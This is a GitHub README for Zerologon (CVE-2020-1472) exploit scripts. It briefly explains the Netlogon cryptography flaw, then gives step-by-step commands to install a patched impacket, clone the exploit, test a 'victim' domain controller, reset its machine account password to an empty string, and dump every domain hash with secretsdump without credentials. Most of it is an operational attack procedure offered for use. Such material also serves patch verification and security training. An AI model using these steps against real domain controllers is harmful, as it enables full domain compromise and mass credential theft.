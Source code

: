 # Zerologon
Set of scripts, to test and exploit the zerologon vulnerability (CVE-2020-1472). 

<img src="https://imgur.com/71fdoCW.jpg" alt="banner"/>

***

# What is it?

ZeroLogon is a vulnerability that allows us to exploit a cryptography flaw in Microsoft's Active Directory Netlogon Remote Protocol (MS-NRPC), which allows users to log in to servers using NTLM. 

***

# Previous steps 

Before executing the exploit we must know that we need a different version of impacket, for this we will do the following. 

``> apt remove --purge impacket-scripts python3-impacket``

``> git clone https://github.com/SecureAuthCorp/impacket.git``

``> cd impacket``

``> pip install .``

***

# PoC (Proof Of Concept)

``git clone https://github.com/Nekoox/zerologon.git``

``cd zerologon``

``pip install -r requirements.txt``

## Check if the victim domain controller is vulnerable to zerologon.

``python3 tester.py <DC-NAME> <ip-address>``

In the event that the victim DC is vulnerable, a message will appear saying "Success! DC can be fully compromised by a Zerologon attack." 

Otherwise, that is, the victim DC is not vulnerable because the security hole has been patched, we will get the following message "Attack failed. Target is probably patched." 

***

## Change the password of the vulnerable domain controller to an empty string. 

``python3 empty_pw.py <DC-NAME> <ip-address>``

If the Domain Controller is vulnerable, after running the exploit it should not have any password. 


## Dump hashes of the Domain Controller. 

``> secretsdump.py -just-dc <DC-NAME>\$@<ip-address>``

By executing this, we will be able to see all the hashes of the domain, without any credentials. 

